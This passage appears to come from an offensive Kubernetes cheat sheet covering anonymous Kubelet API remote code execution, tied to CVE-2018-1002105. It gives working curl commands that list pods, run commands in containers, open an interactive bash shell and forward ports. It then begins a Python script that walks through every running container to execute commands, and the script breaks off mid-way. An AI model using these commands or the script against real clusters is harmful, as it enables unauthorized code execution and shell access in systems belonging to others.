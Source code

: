 #### Anonymous RCE (CVE-2018-1002105 and variants)
```bash
# Check kubelet availability
curl -sk https://<target>:10250/pods | jq -r '.items[].metadata | "\(.namespace)/\(.name)"'

# List available containers
curl -sk https://<target>:10250/pods | jq -r '.items[] | select(.status.phase=="Running") | "\(.metadata.namespace)/\(.metadata.name) - \(.spec.containers[].name)"'

# Execute commands in containers
NAMESPACE="default"
POD_NAME="target-pod"
CONTAINER_NAME="main"

curl -sk "https://<target>:10250/exec/$NAMESPACE/$POD_NAME/$CONTAINER_NAME" \
  -G -d 'input=1' -d 'output=1' -d 'tty=1' \
  -d 'command=id' -d 'command=-a'

# Interactive shell access
curl -sk "https://<target>:10250/exec/$NAMESPACE/$POD_NAME/$CONTAINER_NAME" \
  -G -d 'input=1' -d 'output=1' -d 'tty=1' \
  -d 'command=/bin/bash'

# Port forwarding
curl -sk "https://<target>:10250/portForward/$NAMESPACE/$POD_NAME" \
  -H "Upgrade: SPDY/3.1" -H "Connection: Upgrade"
```

#### Automated Kubelet Exploitation
```python
#!/usr/bin/env python3
import requests
import json
import sys

def exploit_kubelet(target, port=10250):
    base_url = f"https://{target}:{port}"
    session = requests.Session()
    session.verify = False
    
    # Get pod list
    try:
        pods_resp = session.get(f"{base_url}/pods")
        pods = pods_resp.json()['items']
        
        for pod in pods:
            if pod['status']['phase'] != 'Running':
                continue
                
            namespace = pod['metadata']['namespace']
            pod_name = pod['metadata']['name']
            
            for container in pod['spec']['containers']:
                container_name = container['name']
                
                print(f"[+] Testing {namespace}/{pod_name}/{container_name}")
                
                # Execute command
                exec_url = f"{base_url}/exec/{namespace}/{pod_name}/{container_name}"
                params = {
                    'input': '1',
                    'output': '1', 
                    'tty': '1',
                    'command': ['id']
```